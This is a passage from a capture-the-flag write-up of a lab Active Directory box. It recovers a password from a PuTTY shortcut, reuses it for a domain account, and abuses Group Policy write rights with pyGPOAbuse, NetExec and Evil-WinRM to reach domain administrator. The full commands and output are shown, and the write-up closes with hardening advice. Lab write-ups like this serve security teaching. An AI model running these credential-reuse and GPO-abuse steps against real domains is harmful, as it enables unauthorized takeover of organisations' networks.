                Class type indicator    : 0x32 (File entry: File)
                Name                    : putty.exe
                Modification time       : Oct 18, 2025 05:24:56
                File attribute flags    : 0x00000020
                        Should be archived (FILE_ATTRIBUTE_ARCHIVE)
        Extension block: 1
                Signature               : 0xbeef0004 (File entry extension)
                Long name               : putty.exe
                Creation time           : Oct 18, 2025 05:24:52
                Access time             : Oct 18, 2025 05:24:56
                NTFS file reference     : MFT entry: 101460, sequence: 3

Data block: 1
        Signature                       : 0xa0000003 (Distributed link tracker properties)
        Machine identifier              : dc01
        Droid volume identifier         : 067cc002-d120-431f-a9e5-a0e1c87529af
        Droid file identifier           : c7fd1387-abd9-11f0-8068-000c296ab891
        Birth droid volume identifier   : 067cc002-d120-431f-a9e5-a0e1c87529af
        Birth droid file identifier     : c7fd1387-abd9-11f0-8068-000c296ab891

Data block: 2
        Signature                       : 0xa0000009 (Metadata property store)
        Property: {dabd30ed-0043-4789-a7f8-d013a4736622}/100 (PKEY_ItemFolderPathDisplayNarrow)
                Value (0x001f)          : Documents (C:\Users\lainey.moore)

        Property: {b725f130-47ef-101a-a5f1-02608c9eebac}/10 (PKEY_ItemNameDisplay)
                Value (0x001f)          : putty.exe

        Property: {b725f130-47ef-101a-a5f1-02608c9eebac}/15 (PKEY_DateCreated)
                Value (0x0040)          : Oct 18, 2025 05:24:52.000000000 UTC

        Property: {b725f130-47ef-101a-a5f1-02608c9eebac}/12 (Unknown)
                Value (0x0015)          : 1709672

        Property: {b725f130-47ef-101a-a5f1-02608c9eebac}/4 (PKEY_ItemTypeText)
                Value (0x001f)          : Application

        Property: {b725f130-47ef-101a-a5f1-02608c9eebac}/14 (PKEY_DateModified)
                Value (0x0040)          : Oct 18, 2025 05:24:54.226696600 UTC

        Property: {28636aa6-953d-11d2-b5d6-00c04fd918d0}/30 (PKEY_ParsingPath)
                Value (0x001f)          : C:\\Users\\lainey.moore\\Documents\\putty.exe

        Property: {446d16b1-8dad-4870-a748-402ea43d788c}/104 (System.VolumeId)
                Value (0x0048)          : 17494c6c-6198-4a74-bd1e-2c51cbc27f96
```

The command-line arguments launch PuTTY as `netadmin` against `10.0.0.1`, with the password inline after `-pw`.



*lnkinfo exposing the netadmin password in the shortcut's command-line arguments*

BloodHound shows no `netadmin` account, so we try the password against `greg.shields`, the one account from our kerbrute list we do not hold yet.

```
nxc smb 10.1.90.146 -u 'greg.shields' -p '5y5coSmarter2025!!!' --shares
```

```
SMB         10.1.90.146     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SYSCO.LOCAL) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.90.146     445    DC01             [+] SYSCO.LOCAL\greg.shields:5y5coSmarter2025!!! 
SMB         10.1.90.146     445    DC01             [*] Enumerated shares
SMB         10.1.90.146     445    DC01             Share           Permissions     Remark
SMB         10.1.90.146     445    DC01             -----           -----------     ------
SMB         10.1.90.146     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.90.146     445    DC01             C$                              Default share
SMB         10.1.90.146     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.90.146     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.1.90.146     445    DC01             SYSVOL          READ            Logon server share 
```



*Validating greg.shields credentials with NetExec*

The `netadmin` password saved in the shortcut is also `greg.shields`'s domain password. His share list is the same default set the other two see.

We mark `greg.shields` as owned. In BloodHound he is a member of Group Policy Creator Owners, and that group holds `GenericAll` over Default Domain Policy.



*BloodHound GenericAll: Group Policy Creator Owners over Default Domain Policy*

## Shell as greg.shields (root.txt)

Write access over a Group Policy Object lets us change what it applies to the computers in its scope, and Default Domain Policy is linked at the domain root, so its scope includes the domain controller. [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse) writes an immediate scheduled task into the GPO, which runs as SYSTEM on each computer the next time it applies computer policy. pyGPOAbuse identifies the GPO by its GUID, which BloodHound shows in the node's GPC (Group Policy Container) Path, and Default Domain Policy carries the same one in every domain, `31B2F340-016D-11D2-945F-00C04FB984F9`. We have the task add `greg.shields` to the local Administrators group.

```
python3 pygpoabuse.py 'SYSCO.LOCAL'/'greg.shields':'5y5coSmarter2025!!!' -gpo-id '31B2F340-016D-11D2-945F-00C04FB984F9' -command 'net localgroup Administrators greg.shields /add'
```

```
ScheduledTask TASK_10b319a4 created!
```

On a domain controller, the local Administrators group is the domain's built-in Administrators group, which holds administrative rights on every domain controller.



*pyGPOAbuse writing the immediate scheduled task into Default Domain Policy*

Group Policy applies on its own refresh schedule, so we log in as `greg.shields` over WinRM and force it.

```
evil-winrm -i 10.1.90.146 -u 'greg.shields' -p '5y5coSmarter2025!!!'
```

From that session we run the refresh.

```
gpupdate /force
```



*gpupdate /force applying the updated computer policy from the greg.shields session*

With the refresh done, we check the group from the same session.

```
net localgroup Administrators
```

```
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
greg.shields
The command completed successfully.
```

The scheduled task runs as SYSTEM with the refresh, and `greg.shields` is now in Administrators, so we control the domain.



*net localgroup Administrators listing greg.shields after the policy refresh*

Group membership is set in a session's access token at logon, so this shell still carries the token from before the change. We exit Evil-WinRM and connect again as `greg.shields` to pick up the new membership.

```
evil-winrm -i 10.1.90.146 -u 'greg.shields' -p '5y5coSmarter2025!!!'
```

From the new session, `root.txt` is on the `Administrator`'s desktop.



*The new Evil-WinRM session as greg.shields with root.txt listed on the Administrator's desktop*

## Final Thoughts

Sysco was a fun, challenging box, and it introduced me to new techniques and tools. The hash kerbrute dumped by default would not crack until I reran it with `--downgrade`.

Pre-authentication belongs on every account. Credentials belong in a password manager, not an inbox. A shortcut's command line is no better, since it stores the password in plaintext. A network device's password should never double as a domain password. Group Policy Creator Owners held `GenericAll` over Default Domain Policy, and write access to a GPO linked at the domain root is, by default, SYSTEM on every computer in the domain. Object-level rights like these need auditing on a schedule rather than at build time.

— 0xB1rd
